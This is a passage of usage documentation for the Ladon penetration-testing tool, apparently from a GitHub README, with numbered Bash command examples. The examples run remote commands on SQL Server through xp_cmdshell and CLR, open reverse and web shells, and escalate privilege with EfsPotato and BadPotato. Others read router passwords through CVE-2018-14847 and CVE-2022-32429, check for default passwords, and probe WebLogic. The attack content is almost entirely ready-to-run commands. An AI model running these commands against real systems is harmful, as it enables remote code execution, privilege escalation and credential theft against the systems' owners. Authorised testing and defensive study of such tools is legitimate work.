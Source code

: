 ##### 189 MssqlCmd  SQL Server远程执行命令 SQL版本、OS信息 xp_cmdshell
```Bash
Ladon MssqlCmd 192.168.1.8 sa k8gege520 master info  
Ladon MssqlCmd 192.168.1.8 sa k8gege520 master open_cmdshell
Ladon MssqlCmd 192.168.1.8 sa k8gege520 master xp_cmdshell whoami
Ladon MssqlCmd 192.168.1.8 sa k8gege520 master r_shell whoami
Ladon MssqlCmd 192.168.1.8 sa k8gege520 master ws_shell whoami
Ladon MssqlCmd 192.168.1.8 sa k8gege520 master py_cmdshell whoami
```

##### 190 MssqlCmd SQL Server远程执行命令 efspotato、badpotato提权
```Bash
Ladon MssqlCmd 192.168.1.8 sa k8gege520 master install_clr
Ladon MssqlCmd 192.168.1.8 sa k8gege520 master uninstall_clr
Ladon MssqlCmd 192.168.1.8 sa k8gege520 master clr_exec whoami
Ladon MssqlCmd 192.168.1.8 sa k8gege520 master clr_efspotato whoami
Ladon MssqlCmd 192.168.1.8 sa k8gege520 master clr_badpotato whoami
```

##### 191 CVE-2018-14847 Mikrotik RouterOS 6.29-6.42版本密码读取
```Bash
Ladon 192.168.1.8 CVE-2018-14847
Ladon ip.txt CVE-2018-14847
```

##### 192 ZteScan 中兴路由器光猫Web默认口令检测
```Bash
Ladon 192.168.1.8 ZteScan
Ladon ip.txt ZteScan
Ladon http://192.168.1.8 ZteScan
Ladon url.txt ZteScan
```

##### 193 MSNSwitchPwd CVE-2022-32429 MSNSwitch路由器密码读取
```Bash
Ladon https://192.168.1.8 MSNSwitchPwd
Ladon url.txt MSNSwitchPwd
```

##### 194 NetGearPwd NetGear DGND3700v2路由器密码读取
```Bash
Ladon https://192.168.1.8 NetGearPwd
Ladon url.txt NetGearPwd
```

##### 195 T3协议探测WebLogic版本
```Bash
Ladon 192.168.1.8/24 T3Info
Ladon 192.168.1.8:7001 T3Info
Ladon http://192.168.1.8:7001 T3Info
```

### 一键渗透 InfoScan AllScan PocScan ExpScan VerScan

![image](http://k8gege.org/k8img/Ladon/Study/OneScan.PNG)
